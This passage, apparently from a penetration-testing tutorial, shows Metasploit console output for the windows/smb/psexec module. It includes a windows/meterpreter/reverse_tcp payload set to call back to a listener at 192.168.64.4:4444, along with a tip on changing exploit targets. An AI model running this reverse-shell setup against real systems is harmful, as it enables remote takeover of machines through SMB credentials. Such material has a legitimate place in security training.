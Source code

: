```
   RPORT                 445              yes       The SMB service port (TCP)                                                 
   SERVICE_DESCRIPTION                    no        Service description to be used on target for pretty listing                
   SERVICE_DISPLAY_NAME                   no        The service display name                                                   
   SERVICE_NAME                           no        The service name                                                           
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a norma
                                                    l read/write folder share
   SMBUser                                no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.64.4     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.


```

> Sometimes the automatic target not working, you can freely chaneg it to other if the automatic is not working
```
msf6 exploit(windows/smb/psexec) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Automatic
    1   PowerShell
    2   Native upload
    3   MOF upload
    4   Command

```
